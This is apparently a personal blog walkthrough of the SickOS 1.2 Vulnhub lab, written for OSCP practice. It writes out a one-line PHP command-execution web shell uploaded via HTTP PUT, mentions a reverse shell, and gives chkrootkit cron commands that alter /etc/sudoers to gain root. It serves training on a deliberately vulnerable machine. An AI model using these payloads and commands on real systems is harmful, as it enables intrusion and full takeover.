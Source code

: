 ```yaml
---
layout: post
title: "Sick OS 1.2"
date: 2020-08-18
ctf: true
excerpt: "Walkthrough for Sick OS 1.2 on Vulnhub"
tags: [OSCP, chkrootkit, privilege escalation, curl, nmap http-put]
comments: false


---
```


[SickOS 1.2](https://www.vulnhub.com/entry/sickos-12,144/) a vulnerable machine found on the [NetSecFocus Trophy Room](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0) list which I have been using as preparation for the OSCP. Below is a walkthrough to compromise this machine.

First, after downloading and importing the machine into VMware, I had to figure out the IP address of the machine. I used **netdiscover -i eth0** until I came across the IP of this machine.

![SickOS 1.2 netdiscover]/assets/img/SickOS1.png)

Next I ran **threader3000** and let it run its recommended nmap scan.

![SickOS 1.2 threader3000 nmap]/assets/img/SickOS2.png)

It appears that SSH and HTTP are open. I pulled up the main website and was presented with the following.

![SickOS 1.2 website]/assets/img/SickOS3.png)

I decided to run **gobuster dir -u http://[machine ip] -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x .php,.txt -t 50** to enumerate the website. It uncovered a **/test** subdirectory.

![SickOS 1.2 gobuster]/assets/img/SickOS4.png)

I navigated to this page, and it appears to list contents of this directory, which has nothing in it.

![SickOS 1.2 /test]/assets/img/SickOS5.png)

I looked around and didn't see anything we could immediately exploit and there were not any other uncovered pages. I decided to use **curl -X OPTIONS -v http://[machine ip]/test** to see what was allowed in this directory. I uncovered that **PUT** was allowed.

![SickOS 1.2 curl]/assets/img/SickOS6.png)

With this discovery, I used **nmap [machine ip] -p 80 --script http-put --script-args http-put.url='/test/shell.php', http-put.file='[location to reverse shell file]'**. I used the reverse shell from [PenTestMonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell).

![SickOS 1.2 nmap http-put]/assets/img/SickOS7.png)

I then tested this with a reverse shell, but unfortunately it didn't work. I instead created a php file with **\<?php $cmd=$_GET['cmd'];system($cmd);?\>** in it, and saved it as CommandExecution.php. I then uploaded it the same way I uploaded the reverse shell in the prior step.

![SickOS 1.2 nmap http-put 2]/assets/img/SickOS8.png)

Next, I opened a reverse shell listener on port 443 on my attacker computer.

![Sick OS 1.2 nc listener]/assets/img/SickOS9.png)

After trial and error, I discovered that running a Python reverse shell with the command injection script worked, and gave us an initial foothold on the victim PC.

![Sick OS 1.2 python reverse shell]/assets/img/SickOS10.png)

Next, I ran who and it revealed we have a shell as **www-data**, I then ran **python -c 'import pty; ptw.spawn("/bin/sh")'** to upgrade my shell to a TTY shell.

![Sick OS 1.2 www-data shell]/assets/img/SickOS11.png)

Next, I tried navigating to the tmp directory and using wget to copy over linpeas for enumeration, but that was unsuccessful. However, we knew we could use nmap (as we had done twice earlier) to copy over files. I did this to copy over linpeas.

![Sick OS 1.2 nmap http-put 3]/assets/img/SickOS12.png)

Next, I ran **chmod +x linpeas.sh** to make linpeas executable and started it with **./linpeas.sh**.

![Sick OS 1.2 chmod +x]/assets/img/SickOS13.png)

Linpeas returned some interesting information.

![Sick OS 1.2 linpeas 1]/assets/img/SickOS14.png)

![Sick OS 1.2 linpeas 2]/assets/img/SickOS15.png)

![Sick OS 1.2 linpeas 3]/assets/img/SickOS16.png)

It appears that the kernel is exploitable and gcc is installed to compile exploits. **chrootkit** is also setup as a cron job and some versions are vulnerable to exploit. I ran **chkrootkit -V** to see the version that was installed.

![Sick OS 1.2 chkrootkit -V]/assets/img/SickOS17.png)

Back on our attacker pc, I ran **searchsploit chkrootkit**. One of the results returns the version that is installed on the victim machine!

![Sick OS 1.2 searchsploit chkrootkit]/assets/img/SickOS18.png)

Next, I ran **searchsploit -x 33899** to view the contents of this file. It tells you how to exploit **chkrootkit **.

![SickOS 1.2 searchsploit -x 33899]/assets/img/SickOS19.png)

I navigated to the tmp folder with **cd /tmp** and ran **echo "chmod 777 /etc/sudoers" > update** and made it executable with **chmod +x update**. I then waited a couple of minutes for this to be triggered.

![Sick OS 1.2 update file]/assets/img/SickOS20.png)

I then ran **ls -al /etc |grep sudoers**, which showed that the permissions on this file had been updated!

![Sick OS 1.2 ls -al /etc]/assets/img/SickOS21.png)

Next, I ran **echo "www-data ALL=NOPASSWD: ALL" >> /etc/sudoers** to give the www-data the ability to run anything as root with sudo with no password.

![Sick OS 1.2 modify /etc/sudoers]/assets/img/SickOS22.png)

Next, I ran **sudo su**, which didn't work because permissions on /etc/sudoers should be 440.

![Sick OS 1.2 sudo su failed]/assets/img/SickOS23.png)

Next, I went back to the /tmp directory and updated the update file with **echo "chmod 0440 /etc/sudoers" > update**. I waited a couple of minutes for this to take effect.

![Sick OS 1.2 modify update file]/assets/img/SickOS24.png)

I then ran **ls -al /etc|grep sudoers**, which showed the permissions had been changed back to the proper permissions. I then ran **sudo su** which gave me a root shell.

![Sick OS modify sudoers permissions]/assets/img/SickOS25.png)

I then ran **cd /root** followed by **ls -al**. There was a flag file present, which I viewed the contents of with **cat 7d03aaa2bf93d80040f3f22ec6ad9d5a.txt**, which showed the information below!

![]/assets/img/SickOS26.png)